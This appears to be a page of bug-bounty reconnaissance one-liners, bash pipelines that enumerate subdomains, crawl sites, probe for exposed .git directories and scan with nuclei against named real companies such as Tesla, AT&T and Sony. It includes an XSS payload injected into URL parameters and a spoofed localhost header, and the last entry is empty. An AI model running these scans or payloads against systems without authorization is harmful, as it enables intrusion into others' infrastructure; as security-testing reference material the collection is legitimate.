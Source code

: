 ```bash
assetfinder -subs-only tesla.com -silent | httpx -timeout 3 -threads 300 --follow-redirects -silent | xargs -I% -P10 sh -c 'hakrawler -plain -linkfinder -depth 5 -url %' | grep "tesla"
```
**Search subdomains in cert.sh**
```bash
curl -s "https://crt.sh/?q=%25.att.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx -title -silent | anew
```
**Search subdomains in cert.sh assetfinder to search in link /.git/HEAD**
```bash
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's****.git/HEAD**' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
```bash
curl -s "https://crt.sh/?q=%25.enjoei.com.br&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | httpx -silent -path /.git/HEAD -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
**Collect js files from hosts up by gospider**
```bash
xargs -P 500 -a pay -I@ sh -c 'nc -w1 -z -v @ 443 2>/dev/null && echo @' | xargs -I@ -P10 sh -c 'gospider -a -s "https://@" -d 2 | grep -Eo "(http|https)://[^/\"].*\.js+" | sed "s**] \- **n**" | anew'
```
**Subdomain search Bufferover resolving domain to httpx**
```bash
curl -s https://dns.bufferover.run/dns?q=.sony.com |jq -r .FDNS_A[] | sed -s 's/,/\n/g' | httpx -silent | anew
```
**Using gargs to gospider search with parallel proccess**
```bash
httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -l domain -timeout 5 -threads 200 --follow-redirects -silent | gargs -p 3 'gospider -m 5 --blacklist pdf -t 2 -c 300 -d 5 -a -s {}' | anew stepOne
```
**Injection xss using qsreplace to urls filter to gospider**
```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
**Extract URL's to apk**
```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's****' | anew | grep -v "w3\|android\|github\|schemas.android\|google\|goo.gl"
```
**Chaos to Gospider**
```bash
chaos -d att.com -o att -silent | httpx -silent | xargs -P100 -I@ gospider -c 30 -t 15 -d 4 -a -H "x-forwarded-for: 127.0.0.1" -H "User-Agent: Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1" -s @
```
**Checking invalid certificate**
```bash
xargs -a domain -P1000 -I@ sh -c 'bash cert.sh @ 2> /dev/null' | grep "EXPIRED" | awk '/domain/{print $5}' | httpx
```
**Using shodan & Nuclei**
```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```
**Open Redirect test using gf.**
```bash
echo "domain" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```
**Using shodan to jaeles "How did I find a critical today? well as i said it was very simple, using shodan and jaeles".**
```bash
```